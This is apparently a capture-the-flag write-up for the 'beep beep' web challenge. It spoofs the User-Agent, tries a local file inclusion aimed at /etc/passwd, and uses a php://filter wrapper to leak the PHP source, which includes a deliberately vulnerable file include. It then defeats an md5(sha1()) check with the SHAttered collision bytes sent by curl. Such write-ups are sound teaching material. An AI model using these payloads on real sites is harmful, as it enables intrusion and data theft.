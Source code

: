 # beep beep

You are given to analyse a seemingly safe site.
Intially there is nothing on the site. But when you read the source it says only bots can read it. So change your user agent to `bot` or some google bot's useragent and visit the site. You now see the page containing information about the leaders of the bot attack. There is nothing on source.
When robots.txt is viewed there is binary data when decoded give the text "Humans think that we cannot read this file. lol. But anyways guys you know the format for posting to this page to get cooradinates to attack and update attack status. We will win this war." So we know we need to post. But we do not know the parameters. On exploring more on site we observe that the url `http://localhost:8000/index.php?botdetails=spot.html`. So the php is including the file and displaying it. So we try LFI. Common payloads like `../../../../../etc/passwd` don't work and give response as "Don't try to read secrets on my mind". So they don't work.  
But on using a php wrapper function filter we will try to include the file. Set bot details parameter as `botdetails=php://filter/convert.base64-encode/resource=index.php`. we get base64 encoded data.
On decoding it we get:

```php
<?php

require "../shabot.php";
require "flag.php";
if(stripos($_SERVER['HTTP_USER_AGENT'], "bot" )===false) {
    include ("humans.html");
    die();
}


if(isset($_GET["botdetails"])){

    if( isSafe($_GET["botdetails"])){
        include($_GET["botdetails"]);
        die();
    }
    else {
        die();
    }
}

//only true bots can bypass this as no human can compute it
if( isset($_POST["provebot1"]) && isset($_POST["provebot2"]) ){

    $safe1 = (string) $_POST["provebot1"];
    $safe2 = (string) $_POST["provebot2"];
    if($safe1!==$safe2 && md5(sha1($_POST["provebot1"])) === md5(sha1($_POST["provebot2"]))){
        echo json_encode($coordinates);
        die();
    }
}
?>

<?php require("templates/header.php") ?>

<body style="background: black">
    <div class="container text-center my-5">
        <h1 style="color: red">Leaders </h1>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/spot.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=spot.html" ?>"> Spot </a> </h3>
        <p>Lead spy</p>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/handle.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=handle.html" ?>"> Handle </a> </h3>
        <p>Lead Supplies Manager</p>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/atlas.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=atlas.html" ?>"> Atlas </a> </h3>
        <p>Lead fighter </p>
    </div>
<?php require("templates/footer.php") ?>
```

We found the secret parameters for routing. We need to find a md5 collision. Since there is `sha1()` inside `md5()` we can try sha1 collision. There was a hash collision detected in 2017. On sending the first 320 bytes of the shattered pdf we recover the flag.

To get 320 bytes:

```bash
xxd -l 320 shattered-1.pdf | xxd -r > provebot1.dat
```

To make the request:

```bash
curl 'http://localhost:8000/index.php' -A "bot"  --data-urlencode provebot1@provebot1.dat --data-urlencode provebot2@provebot2.dat
```

We get the response:

```
{"lat":12.991375324106727,"lon":80.21656349301354,"flag":"p_ctf{4r3_y0u_r3a11y_4_r0b0t_?_y35}"}
```

Flag is:

```
p_ctf{4r3_y0u_r3a11y_4_r0b0t_?_y35}
```
